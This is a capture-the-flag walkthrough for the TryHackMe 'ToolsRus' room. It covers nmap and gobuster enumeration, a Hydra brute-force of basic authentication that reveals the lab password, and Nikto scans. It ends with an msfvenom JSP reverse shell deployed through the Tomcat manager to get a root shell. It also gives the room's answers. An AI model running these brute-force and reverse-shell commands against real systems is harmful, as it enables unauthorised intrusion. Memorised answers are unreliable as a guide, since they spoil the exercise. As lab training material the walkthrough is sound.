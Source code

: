 ################################
		Cosmin Tibuleac | 13.11.2021
################################


https://tryhackme.com/room/toolsrus

"Your challenge is to use the tools listed below to enumerate a server, gathering information along the way that will eventually lead to you taking over the machine."


export IP=10.10.108.122

nmap -A -T4 -p- $IP -o nmap.txt


 # Task 1: ToysRus
 
 ## Question 1: What directory can you find, that begins with a "g"?
 
 We can use gobuster or dirbuster for this. 
 
 Looks like the answer for this question is `guidelines`
 ![[Pasted image 20211113100202.png]]
 
 Also, if we visit that directory on our web browser, we can see a message for "Bob":
 
 ![[Pasted image 20211113100250.png]]
 
 So, this tells us that the TomCat server might be potentially unupdated and vulnerable.
 
 ## Question 2: Whose name can you find from this directory?
 
 We just found him, it's `Bob`.
 
 ## Question 3:What directory has basic authentication?
 
 If we take a look at the above picture, we can see gobuster has had already found it: `protected`
 
 
 ## Question 4: What is bob's password to the protected part of the website?
 
 For this, we can use **Hydra**.
 
 The type of authentication the page /protected is using, is called "Basic Authentication", and it's a known weak authentication system.
 
 If we go to the page, we are presented with this: 
 
 ![[Pasted image 20211115152116.png]]
 
 First, we need to see what type of method the request is using, and where our credentials go.
 
 We can do this by opening the developer tab (on firefox use F12), and then looking at the Network Tab.
 
 We can see that our request is of type **GET** and that our credentials go to /protected.
 
 Now, it's time to fire up hydra and craft our command for it: 
 
 hydra -l bob -P /usr/share/wordlists/rockyou.txt IP_ADDRESS http-get /protected.
 
 We are using -l since we know the username "bob", -P to specify the location of our wordlist for password, in this case rockyou.txt,  the http request (GET) and the page where our credentials are being submitted (/protected).
 
 Additionally, you can add | tee hydra.log if you would like to get a log from hydra.
 
 In under 5 seconds, we can see that Hydra has managed to crack the password, which is "bubbles":
 ![[Pasted image 20211115152611.png]]
 
 Answer for this question: `bubbles`
 
 
 ## Question 5: What other port that serves a webs service is open on the machine?
 
 If we take a look at our nmap results, we can see that there's an apache server running on port `1234`.
 
 ## Question 6: Going to the service running on that port, what is the name and version of the software?

Answer format: Full_name_of_service/Version


We can also see this in our nmap scan: 

![[Pasted image 20211115153000.png]]


## Question 7: Use Nikto with the credentials you have found and scan the /manager/html directory on the port found above.

How many documentation files did Nikto identify?

For this, we can have Nikto "take a look" at the apache server: 


*nikto -h http://10.10.159.36:1234/manager/html*

![[Pasted image 20211115160336.png]]

If we take a look at what Nikto has found, we can see there are `5` documentation files.

## Question 8: What is the server version (run the scan against port 80)?

For this, we can either use nikto: nikto -h http://10.10.159.36:80

Or look in our previous nmap scan.

The server version is: `Apache/2.4.18`


## Question 9: What version of Apache-Coyote is this service using?

If we take a look at our previous nmap scan once more, we can see the Apache-Coyote version, which is `1.1`


## Question 10: Use Metasploit to exploit the service and get a shell on the system.

What user did you get a shell as?


If we go to the Apache server running on port 1234, we can go on the "Manager App" tab:

![[Pasted image 20211116003455.png]]

Remember, the credentials are "bob" for user, and "bubbles" for password.

If we scroll down, we can see we can upload files to the server: 

![[Pasted image 20211116003552.png]]

So, what we can do, is craft a **reverse shell** that calls back to our machine, and then access it. 

For this, we can use **msfvenom** to generate our shell:

*msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.11.50.6 LPORT=6666 -f war > shell.war*


Make sure to use your listening interface IP on LHOST.

Once you are done, upload the file to the server and then Deploy it.

![[Pasted image 20211116003757.png]]

Now, start a listener on the port you set for the reverse shell:

![[Pasted image 20211116003846.png]]

Once that is done, we need to access the file on the Apache server:

*http://10.10.186.137:1234/shell/*

Aaand we are in! As root! 

![[Pasted image 20211116004027.png]]

So, the answer for this question is `root`

## Question 11: What text is in the file /root/flag.txt

For this, just navigate to /root and **cat** the flag.txt.


